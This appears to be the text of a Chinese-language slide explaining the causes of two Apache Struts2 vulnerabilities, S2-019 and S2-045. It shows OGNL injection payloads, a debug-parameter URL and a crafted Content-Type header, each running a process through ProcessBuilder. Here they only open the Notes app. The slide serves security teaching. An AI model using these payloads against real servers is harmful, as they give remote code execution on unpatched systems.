

漏洞成因——固定的语句格式
S2-019
从debug参数获取调试模式，如果模式是command，则把expression参最终放到了ognl.getValue中。
http://www.glassy.com/Struts2Demo_war_exploded/hello.action? debug=command&expression=#a=(new java.lang.ProcessBuilder('open /Applications/Notes.app/')).start()
S2-045
ST2在处理上传文件出错的时候且错误信息中带%{exp}的时候，会把exp带入ognl.getValue
Content-Type:%{(#glassy='multipart/form-data’). (#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}